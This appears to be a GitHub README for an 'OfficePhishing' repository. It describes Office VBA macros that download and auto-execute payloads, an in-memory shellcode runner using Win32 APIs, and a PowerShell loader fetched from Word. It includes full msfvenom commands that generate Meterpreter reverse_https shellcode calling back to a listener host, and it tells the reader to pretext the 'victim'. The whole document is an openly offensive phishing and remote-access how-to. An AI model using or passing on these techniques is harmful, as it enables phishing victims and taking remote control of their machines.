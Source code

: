 Basic phishing to auto download our payload than auto execute using vba

phish.vba


Remember to pretext our victim
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/5683bbc3-0abb-40a1-9e22-69a2ce8f080f)

Intermediate rce via phishing by running executed shellcode in memory by using three Win32 APIs from Kernel32.dll:  
VirtualAlloc_, RtlMoveMemory, and _CreateThread

runner.vba

Will exit when you close office 
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/ee96d583-50fa-4ff8-ad86-677e35bb54f5)

msfvenom -p  windows/meterpreter/reverse_https lhost=10.10.11.135 lport=443 EXITFUN=thread -f vbapplication


run.ps1 and auto.vba(download and execute run.ps1 from word)
using powershell to call win32 api to execute reverse shell 
To prevent termination added wait forever 
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
![image](https://github.com/VietTheBarbarian/OfficePhishing/assets/56415307/16262bf9-823f-4ef6-a482-64ecb68ecbf8)
